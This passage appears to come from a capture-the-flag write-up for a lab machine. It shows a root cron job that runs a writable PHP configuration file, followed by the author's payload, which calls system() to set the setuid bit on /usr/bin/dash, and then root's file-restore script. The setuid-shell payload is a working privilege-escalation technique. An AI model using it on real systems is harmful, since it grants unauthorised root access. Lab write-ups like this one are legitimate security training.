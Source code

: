 ```php
albert@alert:/opt/website-monitor/config$ cat configuration.php
<?php
define('PATH', '/opt/website-monitor');
?>
```

There's a cronjob:

```console
2024/12/03 18:15:10 CMD: UID=0     PID=526445 | /usr/bin/php -f /opt/website-monitor/config/configuration.php
```

My payload:

```console
albert@alert:/tmp/.../config$ pwd
/tmp/.../config
albert@alert:/tmp/.../config$ cat configuration.php
<?php system("bash -c 'chmod u+s /usr/bin/dash'"); ?>
```

## Post-exploitation

```bash
bash-5.0# cat php_bot.sh
#!/bin/bash

MONITOR_DIR="/opt/website-monitor/config"

if [ ! -d "$MONITOR_DIR" ]; then
    echo "The file $MONITOR_DIR does not exist."
    exit 1
fi

inotifywait -m -e modify --format '%w%f %e' "$MONITOR_DIR" | while read fullpath event
do
    filename=$(basename "$fullpath")
    echo "The file $filename has been modified."
    /usr/bin/sleep 3
    /usr/bin/php -f /opt/website-monitor/config/configuration.php >/dev/null 2>&1
    /usr/bin/cp /root/scripts/config/configuration.php /opt/website-monitor/config/
    /usr/bin/chmod -R 775 /opt/website-monitor/config
    /usr/bin/chown -R :management /opt/website-monitor/config
    echo "$filename restored."
done
```
